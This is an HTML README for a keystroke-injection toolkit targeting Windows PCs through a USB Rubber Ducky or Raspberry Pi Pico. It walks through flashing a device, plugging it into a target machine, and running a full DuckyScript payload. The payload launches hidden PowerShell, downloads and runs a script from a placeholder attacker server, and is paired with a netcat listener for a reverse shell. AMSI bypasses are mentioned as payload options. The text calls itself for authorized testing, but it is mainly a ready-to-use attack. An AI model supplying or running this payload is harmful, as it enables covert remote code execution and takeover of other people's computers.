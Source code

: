 

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body>
  <h1>HID-based PowerShell Payload PicoKit</h1>
  <h2>Automated Payload Delivery Using USB Rubber Ducky &amp; Raspberry Pi Pico</h2>

  <p>
    This toolkit provides ready-to-deploy DuckyScript (<code>.ducky</code>) payloads for use with USB Rubber Ducky, Digispark, or Pico HID attack platforms.<br>
    <strong>Not for manual execution—these are keyboard emulation scripts only.</strong>
  </p>
  <blockquote>
    <strong>For legal, authorized penetration testing and education only!</strong>
  </blockquote>

  <ol>
    <li>
      <h3>Quick Start</h3>
      <p><strong>Clone the Repository:</strong></p>
      <pre><code>git clone https://github.com/YOUR_USERNAME/hid-powershell-payloads.git
cd hid-powershell-payloads
</code></pre>
    </li>
    <li>
      <h3>Prepare Your Payloads</h3>
      <p><strong>Edit the Payloads</strong></p>
      <ul>
        <li>DuckyScript files (<code>payload.ducky</code>) are provided.</li>
        <li>Replace all placeholders (<code>YOUR_IP</code>, <code>PORT</code>, <code>YOUR_FILE.ps1</code>) in the scripts with your own attack server details.
          <pre><code>STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
</code></pre>
        </li>
        <li>Host your payload <code>.ps1</code> file(s) using a simple HTTP server:
          <pre><code>python3 -m http.server 8000
</code></pre>
        </li>
      </ul>
    </li>
    <li>
      <h3>Flash Ducky Script to Your Device</h3>
      <ul>
        <li><strong>For Rubber Ducky:</strong>
          <ul>
            <li>Convert your <code>.ducky</code> file to <code>inject.bin</code> using
              <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/duckencode" target="_blank">Hak5 DuckEncoder</a>:
              <pre><code>java -jar duckencode.jar -i payload.ducky -o inject.bin
</code></pre>
            </li>
            <li>Flash <code>inject.bin</code> onto your Rubber Ducky’s micro SD.</li>
          </ul>
        </li>
        <li><strong>For Raspberry Pi Pico, Digispark, etc.:</strong>
          <ul>
            <li>Convert <code>.ducky</code> to the correct format required by your firmware (e.g., Duckyscript to CircuitPython for Pico).</li>
            <li>Copy to device as per your toolkit’s guidelines.</li>
          </ul>
        </li>
      </ul>
    </li>
    <li>
      <h3>Plug in and Attack</h3>
      <ul>
        <li>Insert your HID device into the <strong>target Windows PC</strong>.</li>
        <li>The HID emulates keyboard input:
          <ul>
            <li>Opens <kbd>Win+R</kbd>, launches hidden PowerShell.</li>
            <li>Types/downloads/executes your remote payload—<strong>NO user interaction needed</strong>.</li>
          </ul>
        </li>
        <li>On your attacker machine, set up a Netcat listener (for reverse shells):
          <pre><code>nc -lvnp L_PORT
</code></pre>
          <p>Replace <code>L_PORT</code> with your port.</p>
        </li>
      </ul>
    </li>
    <li>
      <h3>Example DuckyScript Payload</h3>
      <pre><code>DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden
ENTER
DELAY 800
STRING IEX (New-Object Net.WebClient).DownloadString('http://YOUR_IP:PORT/YOUR_FILE.ps1')
ENTER
</code></pre>
      <ul>
        <li><strong>Edit:</strong> Change the URL to your IP/port/filename.</li>
        <li>Place the corresponding <code>.ps1</code> (e.g., reverse shell or AMSI bypass) on your server before use.</li>
      </ul>
    </li>
  </ol>

  <h3>Legal/Ethical Use</h3>
  <blockquote>
    These payloads automate attack delivery for red teamers, CTF players, and security researchers—not intended for manual use!<br>
    <strong>Never use on systems or networks without WRITTEN permission.</strong>
  </blockquote>
</body>
</html>
